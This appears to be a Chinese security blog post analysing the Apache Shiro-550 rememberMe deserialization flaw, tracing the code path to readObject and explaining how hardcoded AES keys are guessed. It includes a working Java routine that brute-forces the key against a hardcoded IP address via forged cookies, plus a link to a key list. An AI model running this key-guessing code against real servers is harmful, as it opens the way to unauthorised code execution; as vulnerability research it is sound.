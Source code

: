 ```yaml
---
typora-root-url: ../../../static
title: "Shiro550反序列化分析"
date: 2021-03-14T22:07:36+08:00
draft: false
categories: ["code_audit"]
---
```


## 攻击链分析
debug得到整个攻击链的主要路径如下图所示：

![Shiro550攻击链][p1]

代码分析主要从 `AbstracRememberMeManager#getRememberedIdentity入` 手，如下所示：

![入口1][p2]

跟进标红函数，如下所示：

![入口2][p3]

继续跟进 `getRememberedPrincipals()` ，分析如下所示：

![入口3][p4]

此处假设AES解密成功，继续跟进 `deserialize()` ,如下所示：

![入口4][p5]

继续跟进标红函数，如下所示，看打了久违的 `readObject` ，于是造成反序列化漏洞：

![入口5][p6]

## 一些说明
可以看到，shiro反序列化攻击的一个关键点就是 **需要猜解shiro rememberMe配置的AES密钥** ，既然是密钥，为啥会被猜解到呢？主要shiro官方的AbstractRememberMeManager存在默认的硬编码AES密钥，此外，开发者们无脑复制网上的各种示例代码，而示例代码中配置了硬编码的shiro rememberMe密钥，导致攻击者可以搜集网上的各种示例代码中的shiro密钥，从而对靶机进行一个密钥爆破；

攻击过程如下所示：

![shiro攻击过程][p7]

那么我们收集好了shiro密钥字典后，如果进行爆破呢？又如何判断爆破成功呢？这里主要存在两种思路：

- 生成执行请求DNSLog地址的反序列化对象，如果爆破成功，则DNSLog有回显；
- 利用Xray提供的思路：生成一个空的SimplePrincipal反序列化对象，如果爆破成功，则返回包中就不会返回 `rememberMe=deleteMe` ；

一个检测示例代码如下所示（采用Xray方式，代码依赖于Hutool）：

    @Test
    public void testTian() throws Exception{
        // 读取100key
        List<String> keys = FileUtil.readLines(new File("c:/Users/18148/Desktop/shiro100key.txt"), "UTF-8");
        AesCipherService aes = new AesCipherService();
        for (int index=0;index<keys.size();index++) {
            String shiroKey=keys.get(index);
            System.out.println("[*] index："+(index+1)+"，当前正在检测的key为："+shiroKey);
            SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
            String filePath = "c:/Users/18148/Desktop/shiroPayload/payload";
            ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(filePath));
            obj.writeObject(simplePrincipalCollection);
            obj.flush();
            obj.close();
            try{
                byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath(filePath));
                // shiro的密钥
                byte[] key = cn.hutool.core.codec.Base64.decode(CodecSupport.toBytes(shiroKey));
                ByteSource ciphertext = aes.encrypt(payloads, key);
                // 得到最终的rememberMe payload
                String payload=ciphertext.toString();
                // 攻击地址
                String url="http://101.201.239.35/loginIndex";
                Map<String, List<String>> headers = new HashMap<>();
                ArrayList<String> cookieVal = new ArrayList<>();
                cookieVal.add("rememberMe="+payload);
                headers.put("Cookie",cookieVal);
                headers.put("Accept", Arrays.asList("application/json","text/plain","*/*"));
                HttpRequest request = HttpUtil.createGet(url).header(headers).timeout(10000).disableCache();
                HttpResponse response = request.execute();
                String header = response.header("Set-Cookie");
                if(!header.contains("rememberMe=deleteMe")){
                    System.out.println("[+] 找到key了，key为："+shiroKey);
                    break;
                }else{
                    // 为了避免误报、漏报，显示下header，方便人工判断
                    System.out.println("[!] 当前的header为："+header);
                    System.out.println("===================================================================分割线=======================================================================");
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }

100_shiro_keys下载链接：[100_shiro_keys][l1]



[p1]:/media/2021-03-14-1.png
[p2]:/media/2021-03-14-2.png
[p3]:/media/2021-03-14-3.png
[p4]:/media/2021-03-14-4.png
[p5]:/media/2021-03-14-5.png
[p6]:/media/2021-03-14-6.png
[p7]:/media/2021-03-14-7.png



[l1]:https://p1n93r.github.io/files/shiro100key.txt